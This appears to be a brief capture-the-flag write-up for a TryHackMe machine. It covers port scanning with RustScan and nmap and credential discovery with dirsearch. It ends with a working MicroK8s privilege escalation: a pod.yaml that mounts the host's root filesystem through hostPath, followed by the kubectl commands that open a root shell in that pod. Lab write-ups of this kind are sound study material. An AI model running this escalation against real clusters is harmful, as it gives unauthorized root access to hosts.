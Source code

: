 ## Steps:
1. Install Rustscan:
   - https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
2. Scanwith rustscanner:
  ``` $ rustscan IP ```
3. Nmap scan:
``` nmap -sV -sC -Pn -n -A -p (open ports) IP ```
4. Use dirsearch to find crdentials

### Privilege Escalation with kubernetes Microk8s:
```
1. After coonect with ssh
2. Check it command:
  $ microk8s
  $ microk8s kubectl get node -o yaml
3. Create a pod.yaml file and save it:
  $ nano pod.yaml
4. Apply this pod yaml file: 
  $ microk8s kubectl apply -f pod.yaml
5. Do root:
  $ microk8s kubectl exec -it hostmount /bin/bash
```
### Code in below (pod.yaml):
```
apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: localhost:32000/bsnginx@sha256:59dafb4b06387083e51e2589773263ae301fe4285cfa4eb85ec5a3e70323d6bd
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```
### References:
1. https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation
2. https://github.com/psechoPATH/Tryhackme-Writeup/blob/main/Frank_%26_Herby_make_an_app.md
